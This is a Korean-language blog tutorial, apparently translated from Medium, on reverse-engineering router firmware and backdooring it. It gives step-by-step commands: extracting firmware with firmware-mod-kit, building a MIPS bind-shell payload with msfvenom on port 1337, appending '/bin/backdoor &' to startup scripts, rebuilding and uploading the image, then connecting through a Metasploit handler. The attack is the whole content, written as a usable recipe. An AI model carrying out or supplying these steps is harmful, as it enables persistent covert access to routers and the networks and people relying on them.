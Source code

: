 ```yaml
---
title: "라우터 펌웨어 역공학 및 백도어 설치 방법"
description: ""
coverImage: "/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png"
date: 2024-07-06 02:52
ogImage: 
  url: /assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png
tag: Tech
originalTitle: "Reverse Router Firmware , Backdooring It…"
link: "https://medium.com/@nahid0x1/reverse-router-firmware-backdooring-it-78ff442edb6c"
isUpdated: true
---
```






라우터 펌웨어는 네트워크 인프라의 중요한 구성 요소이며 보안이 자주 간과됩니다. 해커로서 라우터 펌웨어를 역공학 및 백도어링하는 방법을 이해하는 것이 중요합니다. 이 문서에서는 라우터 펌웨어를 역공학하고 백도어링하는 과정을 살펴보겠습니다.

![라우터 펌웨어 역공학 및 백도어링](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png)

도구 및 요구 사항

- 리눅스 머신 (Kali Linux)
- Binwalk: 펌웨어 분석 도구
- Firmware-Mod-Kit (github.com/rampageX/firmware-mod-kit)

<div class="content-ad"></div>

단계 1: 대상 라우터 펌웨어 다운로드하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_1.png)

단계 2: 압축 해제하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_2.png)

<div class="content-ad"></div>

Step 3: Firmware-mod-kit 다운로드하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_3.png)

```bash
git clone https://github.com/rampageX/firmware-mod-kit

sudo apt-get install git build-essential zlib1g-dev liblzma-dev python3-magic autoconf python-is-python3
```

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_4.png)

<div class="content-ad"></div>

단계 4: 펌웨어 추출하기

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_5.png

```js
firmware-mod-kit/extract-firmware.sh firmware.bin
```

단계 5: rootfs 폴더로 이동하기

<div class="content-ad"></div>

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_6.png

단계 6: Metasploit을 사용하여 백도어(backdoor) 생성하기

참고: 먼저 펌웨어 엔디안이 리틀 엔디안(little endian)인지 다른 종류의 엔디안인지 확인하십시오.

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_7.png

<div class="content-ad"></div>


```js
cd bin
msfvenom -p linux/mipsle/shell_bind_tcp LPORT=1337 -f elf > backdoor
chmod 777 backdoor
```

Step 7: 백도어를 실행하도록 설정합니다.

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_8.png

```js
cd ...
find . -name "*.sh" #이 명령어는 모든 .sh 파일을 검색합니다
#찾은 .sh 파일에 "/bin/backdoor &"를 추가하세요
```


<div class="content-ad"></div>

8단계: 펌웨어를 다시 빌드하세요

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_9.png

```js
firmware-mod-kit/build-firmware.sh
```

9단계: 펌웨어 업로드

<div class="content-ad"></div>

- 관리자 패널에 로그인하세요.
- 업데이트 옵션을 찾으세요.

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_10.png)

- 이제 수정된 펌웨어를 업로드하세요...

단계 9: 라우터 쉘에 액세스하기

<div class="content-ad"></div>

```js
msfconsole
use exploit/multi/handler
set payload linux/mipsle/shell_bind_tcp
set LPORT 1337
set rhost 192.168.0.1
exploit
```

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_11.png